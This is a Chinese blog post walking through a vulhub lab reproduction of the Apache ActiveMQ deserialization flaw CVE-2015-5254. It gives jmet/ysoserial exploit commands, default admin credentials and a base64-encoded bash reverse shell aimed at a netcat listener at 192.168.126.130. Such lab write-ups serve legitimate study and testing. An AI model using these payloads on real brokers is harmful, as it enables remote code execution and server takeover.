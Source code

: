 # 原创
：  ActiveMQ 反序列化漏洞（CVE-2015-5254）漏洞复现vulhub

# ActiveMQ 反序列化漏洞（CVE-2015-5254）漏洞复现vulhub

### **ActiveMQ 反序列化漏洞（CVE-2015-5254）**

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务、集群、Spring Framework等。

Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码。

### vulhub漏洞复现

```
cd activemq/
cd CVE-2015-5254/
docker-compose build  #重新编译靶场环境
docker-compose up -d  #开启靶场
docker-compose ps     #查看端口
docker-compose down  #关闭靶场

```

activemq的web管理页面为`http://192.168.126.128:8161/admin/index.jsp?printable=true`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/a76802cb46084ceb8b78524ff2521b49.png"/>

默认账号密码为admin,admin

漏洞利用<br/> 攻击机：Windows<br/> 目标机：ubuntu 192.168.126.128<br/> 监听机：kalilinux：192.168.126.130

1.构造可执行命令的反序列化对象<br/> Jmet可以使用ysoserial生成Payload并发送<br/> 下载jmet，

```
https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar

```

并且在同一目录下创建一个名为external的文件夹。<br/> Jmet命令：`java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/hacker" -Yp ROME 192.168.126.128 61616`<br/> 访问`http://192.168.126.128:8161/admin/browse.jsp?JMSDestination=event`，可以看到全部消息<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/86b957ea68fe40f7b3a12375deab8c97.png"/>

点击此消息即可触发创建文件的命令执行。<br/> 此时进入activemq镜像的脚本执行模式: `docker compose exec activemq bash`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/662d753135d04e56b37ee683b77b3b7c.png"/>

可以看到hacker被创建，命令执行成功。

可以将命令替换为反弹一句话shell<br/> 1.开启kali 打开netcat，开启监听：`nc -lvvp 8080`<br/> 2.构造shell：`bash -i &gt;&amp; /dev/tcp/192.168.126.130/8080 0&gt;&amp;1`<br/> 将shell进行base64加密为：`YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyNi4xMzAvODA4MCAwPiYx`<br/> 3.继续使用jmet 将命令替换为反弹shell

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyNi4xMzAvODA4MCAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.126.128 61616

```

4.点击消息触发命令执行

5.shell反弹成功，成功获取到shell虚拟终端控制环境。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/29958da7e651463da53d1f871ce5a8e2.png"/>
